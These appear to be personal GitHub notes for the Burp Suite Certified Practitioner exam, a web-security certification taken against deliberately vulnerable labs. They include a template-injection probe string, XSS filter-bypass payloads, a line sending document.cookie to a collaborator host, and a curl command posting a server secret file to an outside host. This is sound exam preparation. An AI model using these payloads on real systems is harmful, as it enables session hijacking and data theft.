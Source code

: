 # BSCP
Burp Suite Certified Practitioner exam notes

---------

You will have four hours to complete the Burp Suite Certified Practitioner exam. There are two applications, and each application contains deliberate vulnerabilities. This means that each application can be completed in three stages:

1. Access any user account.
2. Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account.
3. Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution".

[Username list](https://portswigger.net/web-security/authentication/auth-lab-usernames) 

[Password list](https://portswigger.net/web-security/authentication/auth-lab-passwords)

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port `6566`.

`${{<%[%'"}}%\`

java path
```
D:\Application\java\jdk-11.0.20\bin\java.exe
```
ysoserial path
```
D:\Tools\tools\ysoserial\ysoserial-all.jar
```

XSS Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

```
eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))   <--  [echo -n "alert(document.cookie)" | base64 == YWxlcnQoZG9jdW1lbnQuY29va2llKQ==]
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
window['alert'](document['domain'])
window["doc"+"ument"]

location="http://google.com"
document.location = "http://google.com"
document.location="https://COLLABORATOR.com?c="+document.cookie
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"





```

```
curl http://colab.net -d @/home/carlos/secret

```












![image](https://github.com/Manoj-Mukund/BSCP/assets/83630751/76c816f9-3c59-4a86-88b2-9b93c64402db)

